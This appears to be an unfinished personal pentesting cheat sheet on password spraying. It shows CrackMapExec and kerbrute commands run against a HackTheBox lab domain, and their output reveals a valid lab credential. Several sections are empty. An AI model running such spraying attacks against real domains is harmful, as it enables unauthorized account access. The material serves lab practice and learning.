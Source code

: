 # [Password Spraying](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

> Once you have found several valid usernames you can try the most common passwords (keep in mind the password policy of the environment) with each of the discovered users.
By default the minimum password length is 7

- [Password Spraying](#password-spraying)
    - [SMB](#smb)
    - [SSH](#ssh)
    - [Tools](#tools)
        - [cme / CrackMapExec](#cme-smb-ip--u-users-onlytxt--p-isolationiskey)
        - [kerbrute](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# [Example](#example-1)

[cme smb $ip -u users-only.txt -p IsolationIsKey?](#cme-smb-ip--u-users-onlytxt--p-isolationiskey)
[kerbrute passwordspray](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# SSH

-------------------------------------------

# SMB

# Tools

### cme smb $ip -u users-only.txt -p IsolationIsKey?
```
$ cme smb $ip -u users-only.txt -p IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

### kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
```
$ kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
Version: v1.0.3 (9dad6e1) - 09/19/23 - Ronnie Flathers @ropnop

2023/09/19 05:16:07 >  Using KDC(s):
2023/09/19 05:16:07 >   10.10.11.129:88

2023/09/19 05:16:07 >  [+] VALID LOGIN:  hope.sharp@search.htb:IsolationIsKey?
2023/09/19 05:16:07 >  Done! Tested 4 logins (1 successes) in 0.095 seconds
```


### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```